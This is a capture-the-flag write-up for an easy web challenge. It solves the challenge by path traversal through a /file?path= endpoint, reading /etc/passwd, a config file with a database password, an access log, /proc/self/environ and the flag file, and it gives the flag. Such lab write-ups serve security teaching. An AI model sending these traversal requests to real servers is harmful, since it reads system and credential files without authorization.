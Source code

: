 
## The Robot's Trail

**Category**: Web

**Difficulty**: Easy

## Description
You enter a virtual maze, a labyrinth of shifting corridors and endless paths. A guardian robot patrols the floor, leaving a trail behind as it moves. Follow the path it carves, trace its movements carefully, and uncover the key it leads you to. Only by following the robot’s trail can you reach the door to the next floor.

## Writeup

First inspect or look at the source code 

```
<div class="hidden">
        <p>Start by checking what this site tells search engine bots in <a href="/robots.txt" style="color: #00bcd4;">robots.txt</a></p>
</div>
```

so we get a hint to go to the robots.txt endpoint on  going there u get

```
User-agent: *

# We value our digital privacy and have restricted access to certain system-level configurations.
Disallow: /file?path=../../etc/passwd
Disallow: /file?path=../../../etc/passwd

# Hint for curious explorers: 
# Sometimes system files like /etc/passwd can reveal interesting information...
# But remember to respect privacy boundaries!
```

so u go to the /file?path=../../etc/passwd endpoint and it says 

```
"root:x:0:0:root:/root:/bin/bash\n"
            "daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n"
            "bin:x:2:2:bin:/bin:/usr/sbin/nologin\n"
            "sys:x:3:3:sys:/dev:/usr/sbin/nologin\n"
            "nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n"
            "webadmin:x:1000:1000:Check the web server config at /var/www/html/config.php:/home/webadmin:/bin/bash\n"
```

so u try the /file?path=/var/www/html/config.php:/home/webadmin:/bin/bash and u get

```
"<?php\n"
            "// Database configuration\n"
            "$db_host = 'localhost';\n"
            "$db_user = 'admin';\n"
            "$db_pass = 's3cr3t_p@ssw0rd';\n"
            "// Debug info: Check the access logs for unusual activity\n"
            "// Log location: /var/log/apache2/access.log\n"
            "?>"
```

so u try the /file?path=/var/log/apache2/access.log and u get

```
"127.0.0.1 - - [01/Jan/2023:10:30:45 +0000] \"GET / HTTP/1.1\" 200 1234 \"-\" \"Mozilla/5.0\"\n"
            "192.168.1.100 - - [01/Jan/2023:10:31:22 +0000] \"GET /file?path=../../etc/passwd HTTP/1.1\" 200 567 \"-\" \"Python-urllib\"\n"
            "10.0.0.50 - - [01/Jan/2023:10:32:15 +0000] \"GET /admin HTTP/1.1\" 404 289 \"-\" \"curl\"\n"
            "# Interesting environment variables might be found at /proc/self/environ\n"
            "203.0.113.5 - - [01/Jan/2023:10:33:01 +0000] \"POST /login HTTP/1.1\" 302 - \"-\" \"Mozilla/5.0\"\n"
```

and then u go to /file?path=/proc/self/environ and u get 

```
"PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin\n"
            "HOSTNAME=web-server-01\n"
            "USER=www-data\n"
            "HOME=/var/www\n"
            "SECRET_LOCATION=/home/ctf/.secret\n"
            "PWD=/var/www/html\n"
            "LANG=C.UTF-8\n"
            "SHLVL=1\n"
```

and then u go to /file?path=/home/ctf/.secret and u get 

```
"Directory listing for /home/ctf/.secret:\n"
            "total 12\n"
            "drwx------ 2 ctf ctf 4096 Jan  1 10:00 .\n"
            "drwxr-xr-x 5 ctf ctf 4096 Jan  1 09:55 ..\n"
            "-r-------- 1 ctf ctf   48 Jan  1 10:00 flag.txt\n"
            "\n"
```

and then u go to /home/ctf/.secret/flag.txt and u get the flag!

**Flag:** `citadel{p4th_tr4v3rs4l_m4st3ry_4ch13v3d}`

